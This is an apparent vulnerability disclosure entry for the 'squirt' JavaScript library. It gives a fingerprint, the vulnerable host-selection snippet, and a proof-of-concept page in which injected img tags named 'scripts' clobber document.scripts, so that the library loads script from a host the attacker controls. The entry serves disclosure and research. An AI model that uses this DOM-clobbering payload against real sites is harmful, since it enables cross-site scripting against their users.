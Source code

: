 ## squirt

### Meta

+ Library: squirt
+ Stars: 1.2K
+ Version: v0.0.1
+ Fingerprint: `typeof window.sq !== 'undefined'`
+ Payload: ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">```
+ Impact: XSS
+ Status: N/A 
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/cameron/squirt/tree/master`

### Vulnerable Code Snippet

```javascript
var sq = window.sq;
sq.version = '0.0.1';
sq.host =  window.location.search.match('sq-dev') ?
  document.scripts[document.scripts.length - 1].src.match(/\/\/.*\//)[0]
        : '//www.squirt.io/bm/';
```


## PoC

Visit the page: `http://10.161.159.131:8080/squirt/poc.html?sq-dev=localhost:9999`

```
<!--Library-->
<script src="./squirt.js"></script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```

